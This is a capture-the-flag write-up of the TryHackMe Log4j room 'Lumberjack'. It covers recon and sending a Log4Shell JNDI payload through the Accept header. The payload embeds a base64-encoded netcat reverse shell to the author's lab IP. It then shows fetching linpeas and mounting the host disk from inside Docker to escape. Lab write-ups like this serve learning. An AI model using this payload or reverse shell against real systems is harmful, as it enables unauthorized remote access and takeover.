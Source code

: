 ﻿Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](https://i.imgur.com/kkQdBV9.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------

![image](https://i.imgur.com/znguXwU.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](https://i.imgur.com/VeMZtpN.png) 

They give a resource to refer the log4j vulnerability. 

![image](https://i.imgur.com/uhrIwin.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](https://i.imgur.com/qjM9aJH.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](https://i.imgur.com/Jnj3lL2.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](https://i.imgur.com/uREj2Bv.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](https://i.imgur.com/GrsdUPz.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](https://i.imgur.com/Cg2XA34.png)

I send the payload via the accept header. 

![image](https://i.imgur.com/37NrKQu.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](https://i.imgur.com/ibUyBtP.png)

It’s a docker environment... I go to the opt directory for flag’s 


![image](https://i.imgur.com/lM2qnBa.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](https://i.imgur.com/898sjck.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](https://i.imgur.com/ZIYlfIi.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](https://i.imgur.com/Ux2QzX9.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](https://i.imgur.com/44fEVXe.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](https://i.imgur.com/CWwj8DS.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](https://i.imgur.com/44YLZZF.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](https://i.imgur.com/cyDyJ8y.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




